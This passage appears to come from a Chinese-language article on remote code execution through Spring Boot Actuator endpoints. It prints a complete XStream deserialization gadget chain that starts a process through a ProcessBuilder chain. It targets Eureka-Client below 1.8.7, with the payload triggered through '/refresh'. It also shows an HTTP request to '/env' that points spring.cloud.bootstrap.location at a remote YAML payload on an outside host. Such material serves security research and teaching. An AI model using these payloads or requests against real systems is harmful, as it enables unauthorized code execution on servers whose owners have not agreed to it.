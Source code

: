 此属性将Eureka serviceURL修改为任意值。Eureka Server通常用作发现服务器，目标类路径中具有Eureka-Client <1.8.7，则可以利用其中的**XStream反序列化漏洞**。

其中xstream的内容类似如下：

```


1.  `<linked-hash-set>`
2.   `<jdk.nashorn.internal.objects.NativeString>`
3.   `<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">`
4.   `<dataHandler>`
5.   `<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">`
6.   `<is class="javax.crypto.CipherInputStream">`
7.   `<cipher class="javax.crypto.NullCipher">`
8.   `<serviceIterator class="javax.imageio.spi.FilterIterator">`
9.   `<iter class="javax.imageio.spi.FilterIterator">`
10.   `<iter class="java.util.Collections$EmptyIterator"/>`
11.   `<next class="java.lang.ProcessBuilder">`
12.   `<command>`
13.   `<string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>`
14.   `</command>`
15.   `<redirectErrorStream>false</redirectErrorStream>`
16.   `</next>`
17.   `</iter>`
18.   `<filter class="javax.imageio.ImageIO$ContainsFilter">`
19.   `<method>`
20.   `<class>java.lang.ProcessBuilder</class>`
21.   `<name>start</name>`
22.   `<parameter-types/>`
23.   `</method>`
24.   `<name>foo</name>`
25.   `</filter>`
26.   `<next class="string">foo</next>`
27.   `</serviceIterator>`
28.   `<lock/>`
29.   `</cipher>`
30.   `<input class="java.lang.ProcessBuilder$NullInputStream"/>`
31.   `<ibuffer></ibuffer>`
32.   `</is>`
33.   `</dataSource>`
34.   `</dataHandler>`
35.   `</value>`
36.   `</jdk.nashorn.internal.objects.NativeString>`
37.  `</linked-hash-set>`


```

然后调用’/ refresh’端点。

4.  有一种通过Spring环境属性修改来实现RCE的更可靠方法：

```


1.  `POST /env HTTP/1.1`
2.  `Host: 127.0.0.1:8090`
3.  `Content-Type: application/x-www-form-urlencoded`
4.  `Content-Length: 59`

6.  `spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml`


```

